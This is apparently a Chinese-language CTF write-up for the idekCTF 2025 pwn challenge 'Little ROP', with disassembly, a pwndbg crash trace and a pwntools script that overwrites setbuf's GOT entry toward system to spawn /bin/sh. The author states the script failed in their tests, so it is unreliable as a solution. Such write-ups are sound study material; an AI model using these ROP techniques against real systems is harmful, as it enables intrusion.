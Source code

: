 ```yaml
---
title: "Write-ups: idekCTF 2025"
published: 2025-09-19
updated: 2025-09-19
description: "Write-ups for idekCTF 2025 pwn aspect."
image: "https://ghproxy.net/https://raw.githubusercontent.com/CuB3y0nd/picx-images-hosting/master/.2h8mjvhi43.avif"
tags: ["Pwn", "Write-ups"]
category: "Write-ups"
draft: false
---
```


# Little ROP

## Information

- Category: Pwn
- Points: 362

## Description

> No PIE, no canary. Perfect setup for ROP. Show me what you can do!

## Write-up 1

840+ 支队伍，结果这题只有 27 个解，说实话一开始以为是签到题，结果没想到那么难……总之这题质量还是不错的，后期一定要回头深挖一下……

这题解法还挺多的，据我所知就有三种方法，我这里依次记录，就叫 Write-ups 1, 2, 3 吧，学习一下。

首先这个方法 1，也是我当时想到的方法，就是覆盖 `setbuf` 的 got 表为 one_gadget 的地址。但是后来发现找不到合适的 one_gadget……

这里记录的是和这个方法差不多的变体，注意到下面这个函数里面分别调用了三次 setbuf，用到了两个参数，其中 `stdin`, `stdout`, `stderr` 都位于 bss 段，作为 rdi 的参数。

```c
void __fastcall setup(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
}
```

这就给了我们一个控制 rdi 的 gadget，我们可以把 `/bin/sh` 写在已知的地址，选一个 rdi gadget 用于设置 rdi 。

```asm
; Attributes: bp-based frame

; void __fastcall setup(int argc, const char **argv, const char **envp)
public setup
setup proc near
; __unwind {
endbr64
push    rbp
mov     rbp, rsp
mov     rax, cs:stdin@GLIBC_2_2_5
mov     esi, 0          ; buf
mov     rdi, rax        ; stream
call    _setbuf
mov     rax, cs:stdout@GLIBC_2_2_5
mov     esi, 0          ; buf
mov     rdi, rax        ; stream
call    _setbuf
mov     rax, cs:stderr@GLIBC_2_2_5
mov     esi, 0          ; buf
mov     rdi, rax        ; stream
call    _setbuf
nop
pop     rbp
retn
; } // starts at 401156
setup endp
```

之后我们 partial overwrite setbuf 的低三字节为 `system` 的偏移，就有 $1/16$ 的概率命中 system 。

但是实际调试的时候发现在进入 `do_system` 后的栈操作会将我们本就不高的栈地址一直缩小，最后 RSP 变成了只读地址，然后向只读地址之写入数据，导致访问不可写地址而 abort 。

```asm showLineNumbers=false
Program received signal SIGSEGV, Segmentation fault.
0x00007fee1bf5b93e in do_system (line=0x404010 "") at ../sysdeps/posix/system.c:102
102 in ../sysdeps/posix/system.c
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────
 RAX  0xcdd2ecfdc1a6800
 RBX  0x404010 (_GLOBAL_OFFSET_TABLE_+16) ◂— 0
 RCX  0x7fee1c01f7e2 (read+18) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  1
 RDI  0x404010 (_GLOBAL_OFFSET_TABLE_+16) ◂— 0
 RSI  0
 R8   0x7fee1c126f10 (initial+16) ◂— 4
 R9   0x7fee1c147040 (_dl_fini) ◂— endbr64
 R10  0x7fee1bf115e8 ◂— 0xf001200001a64
 R11  0x246
 R12  0x7fff1d8a7218 —▸ 0x7fff1d8a7edb ◂— '/home/user/chall'
 R13  0x7fee1c1277a0 (quit) ◂— 0
 R14  0x7fee1c127840 (intr) ◂— 0
 R15  0x7fee1c17b040 (_rtld_global) —▸ 0x7fee1c17c2e0 ◂— 0
 RBP  0
 RSP  0x403c80 ◂— 0
 RIP  0x7fee1bf5b93e (do_system+62) ◂— mov qword ptr [rsp + 0x378], rax
────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────────
   0x7fee1bf5b926 <do_system+38>     punpcklqdq xmm1, xmm2
   0x7fee1bf5b92a <do_system+42>     push   rbx
   0x7fee1bf5b92b <do_system+43>     mov    rbx, rdi
   0x7fee1bf5b92e <do_system+46>     sub    rsp, 0x388
   0x7fee1bf5b935 <do_system+53>     mov    rax, qword ptr fs:[0x28]               RAX, [0x7fee1bf08768]
 ► 0x7fee1bf5b93e <do_system+62>     mov    qword ptr [rsp + 0x378], rax           [0x403ff8] <= 0xcdd2ecfdc1a6800
   0x7fee1bf5b946 <do_system+70>     xor    eax, eax                               EAX => 0
   0x7fee1bf5b948 <do_system+72>     mov    dword ptr [rsp + 0x18], 0xffffffff     [0x403c98] <= 0xffffffff
   0x7fee1bf5b950 <do_system+80>     mov    qword ptr [rsp + 0x180], 1             [0x403e00] <= 1
   0x7fee1bf5b95c <do_system+92>     mov    dword ptr [rsp + 0x208], 0             [_DYNAMIC+104] <= 0
   0x7fee1bf5b967 <do_system+103>    mov    qword ptr [rsp + 0x188], 0             [0x403e08] <= 0
─────────────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x403c80 ◂— 0
... ↓        7 skipped
───────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────────────
 ► 0   0x7fee1bf5b93e do_system+62
   1         0x401186 setup+48
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> vmmap 0x403c80+0x378
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File (set vmmap-prefer-relpaths on)
          0x402000           0x403000 r--p     1000   4000 chall_patched
►         0x403000           0x404000 r--p     1000   4000 chall_patched +0xff8
          0x404000           0x405000 rw-p     1000   5000 chall_patched
```

解决方法是在覆盖 setbuf 之后那个 read 执行完栈迁移后再想办法给它迁移到更高的地址去，但是覆盖 setbuf 后继续写 rop 的话会破坏 setbuf 的高位地址……不知道是不是 skill 问题，反正就是有问题……

所以我还有一个想法就是，或许第一次 setbuf 先覆盖为 puts 的地址，泄漏 got 中的 libc，然后再用原先的方式控制 rdi，执行 system 。太懒了，下次再研究……

虽然我测试是失败了，无论是本地还是远程调试 docker 内的 chall，但比赛当天有人用同样的思路，打通了……很奇怪，感觉不可思议……

## Exploit 1

```python
#!/usr/bin/env python3

from pwn import (
    ELF,
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
)

FILE = "./chall"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary
libc = ELF("./libc.so.6")


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    read = 0x4011A9
    leave_ret = 0x4011C0
    ret = 0x4011C1
    control_rdi = 0x401186
    store_binsh = 0x404080
    binsh = 0x404068
    system = libc.sym["system"]

    target.success(f"system: {hex(system)}")
    target.success(f"setbuf@got: {hex(elf.got['setbuf'])}")

    payload = flat(
        b"A" * 32,
        store_binsh,  # first_read rbp (store /bin/sh in `store_binsh - 0x20`)
        read,
        binsh,
        b"/bin/sh\x00",
        b"B" * 0x10,
        store_binsh - 0x30,  # rbp (for more ROP) 0x404040
        read,
        b"C" * 0x10,
        control_rdi,
        b"D" * 0x8,
        elf.got["setbuf"] + 0x20,  # rbp
        read,  # after this, pivot to higher stack...? seems impossible !
        b"\x70\x0d\x05",  # system
    )
    raw_input("DEBUG")
    target.send(payload)

    target.interactive()


if __name__ == "__main__":
    main()
```

## Write-up 2

据说预期解是 `ret2lresolve`，崩溃，留作 TODO，有空再研究。

## Exploit 2

TODO

## Write-up 3

还有一个解是使用 `add dword ptr [rbp - 0x3d], ebx; nop; ret` gadget，后面有空再研究，崩溃的我现在只想躺床上睡一天……

## Exploit 3

TODO
